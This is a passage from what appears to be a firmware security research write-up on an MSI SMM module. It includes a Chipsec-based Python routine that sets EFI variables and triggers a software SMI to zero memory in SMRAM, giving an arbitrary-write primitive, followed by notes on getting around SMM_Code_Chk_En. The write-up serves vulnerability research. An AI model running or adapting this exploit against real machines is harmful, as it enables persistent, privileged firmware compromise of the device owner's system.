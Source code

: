 ```
41 63 63 65 73 73 20 64 65 6E 69 65 64 00       aAccessDenied   db 'Access denied',0 
00 00 00 00 00 00 00 00 00 00                   align 10h
```

From the SMRAM dump, I know MSIApServiceSmi module’s base address is `0x4aa31000`. “Access Denied” is at `base+0x35D8`: 

```
def set_zeros(self, addr):
  status = self.cs.helper.set_EFI_variable(
    "WMIAcpiMemAddr",
    "EC87D643-EBA4-4BB5-A1E5-3F3E36B20DA9",
    (addr - 0x79).to_bytes(8, "little"),
    8,
    7,
  )

  if status != 0:
    print("(set_zeros) Failed to set WMIAcpiMemAddr!")
    exit(1)

  self.cs.helper.set_EFI_variable(
    "ApServiceAuthority",
    "EC87D643-EBA4-4BB5-A1E5-3F3E36B20DA9",
    b"\x00\x00",
    2,
    7,
  )

  if status != 0:
    print("(set_zeros) Failed to set ApServiceAuthority!")
    exit(1)

  self.interupts.send_SW_SMI(0x0, 0xE3, 0, 0, 0, 0, 0, 0, 0)

self.set_zeros(0x4aa31000+0x35D8) // base + offset
```

Resulting in:

```
00 00 00 00 00 00 00 00 00 00 00 00 00 00       aAccessDenied   db '0','0','0','0'...
00 00 00 00 00 00 00 00 00 00                   align 10h
```

With `Access Denied` now NULL, an arbitrary write of `0x20 0x00` (wchar_t, remember?) to any address is possible.

I mentioned `SMM_Code_Chk_En` earlier when discussing the Chipsec scan results, and it’s important now.

`SMM_Code_Chk_En` is a CPU security feature that prevents code-execution from leaving SMRAM (an SMM callout). When enabled, the CPU will lock if an instruction calls a non-SMRAM address.

My first thought is that I would be able to find an instruction where updating its address from, let’s say `call 0xFEEDBEEF` to `call 0xFEED2000` could work in my favor. With `SMM_Code_Chk_En`, a lot of conditions have to be met for that to work:
